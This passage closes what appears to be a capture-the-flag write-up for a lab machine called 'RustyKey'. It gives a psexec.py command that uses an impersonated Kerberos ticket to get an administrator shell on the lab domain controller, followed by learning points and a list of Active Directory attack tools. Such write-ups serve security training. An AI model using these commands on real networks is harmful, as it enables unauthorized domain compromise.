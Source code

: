 3. **Use impersonated ticket**:
```bash
export KRB5CCNAME=backupadmin@cifs_DC.rustykey.htb@RUSTYKEY.HTB.ccache
psexec.py -k -no-pass 'RUSTYKEY.HTB/backupadmin@dc.rustykey.htb'
```

### Root Flag
Located at `C:\Users\Administrator\Desktop\root.txt`

## Key Learning Points

1. **Kerberos-Only Environment**: Understanding how to operate in environments where NTLM is disabled
2. **Timeroast Attack**: Novel attack technique against NTP authentication in Active Directory
3. **COM Hijacking**: Leveraging registry manipulation to hijack COM objects for privilege escalation  
4. **RBCD Exploitation**: Using constrained delegation to impersonate high-privilege accounts
5. **BloodHound Analysis**: Critical for understanding complex Active Directory attack paths

## Tools Used
- NetExec (nxc)
- Impacket suite (getTGT.py, wmiexec.py, etc.)
- BloodHound/BloodHound-Python
- BloodyAD
- Evil-WinRM
- RunasCs.exe
- Custom Timeroast scripts
- Metasploit (msfvenom)


